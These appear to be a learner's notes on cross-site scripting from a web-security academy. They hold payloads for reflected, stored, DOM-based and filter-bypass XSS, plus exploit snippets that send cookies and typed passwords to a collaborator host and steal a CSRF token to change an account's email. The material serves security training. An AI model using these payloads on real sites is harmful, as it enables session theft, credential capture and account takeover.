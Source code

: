 # basic attack

#apprentice 
#### reflected
in [[cause & sinks#reflected|this]] case: 
> `https://insecure-website.com/search?term=<script>alert(1)</script>`
#### stored
in [[cause & sinks#stored|this]] case:
> comment=`<script>alert(1)</script>`
#### DOM-based
in [[cause & sinks#DOM-based|this]] case
> `"><svg onload=alert(1)>`

---
# contexts
## between HTML tags
##### most tags and attributes blocked
`<>` -> `<§§>` -> body tag accepted ->`<body%20§§=1>` -> `onresize` accepted -> `<iframe src="https://vulnerable-website.com/?search="><body onresize=print()>" onload=this.style.width='100px'>`
##### all tags and attributes blocked except custom ones
`<xss+id=x+onfocus=alert(document.cookie) tabindex=1>#x'`
##### some SVG markup allowed
`<>` -> `<§§>` -> `<svg>`, `<animatetransform>`, `<title>`,`<image>` accepted-> `<svg><animatetransform%20§§=1>` -> `onbegin` accepted-> `"><svg><animatetransform onbegin=alert(1)>`
## in HTML tag attributes

- **close the tag** ->  `"><script>alert(1)</script>`
- **same tag** -> **new attribute** ->
	- `" autofocus onfocus=alert(1) x="` (`x="` to gracefully repair the following markup
	- `"onmouseover="alert(1)`
- **same tag** -> **same attribute** 
	 - `<a href="javascript:alert(1)">`
	 - hidden input -> `https://vulnerable-website.com/?'accesskey='x'onclick='alert(1)`
## XSS into JavaScript

##### Terminating the existing script 
context: `<script> ... var input = 'controllable data here'; ... </script>` 
- `</script><img src=1 onerror=alert(document.domain)>` (reason:HTML parsing first)
- single quote and backslash escaped -> `</script><script>alert(1)</script>`
##### Breaking out of a JavaScript string
- `'-alert(1)-'` OR `';alert(1)//`
  - back slash escape :  `\';alert(1)//` -> `\\';alert(1)//` -> `';alert(1)//`
##### Making use of HTML-encoding
context: `<a href="#" onclick="... var input='controllable data here'; ...">`
- `&apos;-alert(1)-&apos;`
##### XSS in JavaScript template literals
context: ``<script> ... var input = `controllable data here`; ... </script>`` 
- `${alert(1)}`

## XSS via client-side template injection
...

---
# exploits
## to steal cookies

```html
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST', mode: 'no-cors', body:document.cookie });
</script>
```

## to capture passwords

```html
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```

## to perform CSRF

```html
<script> 
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/my-account/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com') };
</script>
```

---

[XSS cheat-sheet from portswigger academy](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
/gitco